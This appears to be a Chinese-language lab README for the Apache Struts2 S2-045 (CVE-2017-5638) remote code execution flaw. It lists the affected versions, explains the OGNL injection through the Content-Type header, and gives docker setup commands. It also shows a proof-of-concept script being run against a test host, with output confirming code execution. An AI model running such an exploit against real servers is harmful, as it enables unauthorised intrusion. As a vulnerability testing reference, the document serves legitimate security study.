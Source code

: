 ##  S2-045（CVE-2017-5638）

struts2 045 
受影响：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

RCE远程代码执行漏洞，基于Jakarta Multipart解析器进行文件上传时，利用漏洞可进行远程代码执行。
由于当content-type中出现”multipart/form_data”时，会被认为有文件上传，从而调用struts2默认的上传文件组件Jakarta，通过组件漏洞载入OGNL代码并执行，从而达到远程调用的目的。
## 测试环境搭建

```
docker-compose build
docker-compose up -d
```


##  POC
```
执行测试
 python s2-045-poc.py http://10.160.11.191:8080/
[vulnerability exist] http://10.160.11.191:8080/
struts2-045
Debian GNU/Linux 9 \n \l

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```
* 参考：
Apache Struts是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级Java Web应用的开源MVC框架。
https://struts.apache.org/docs/security-bulletins.html
http://www.freebuf.com/vuls/128668.html


## 免责申明：文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负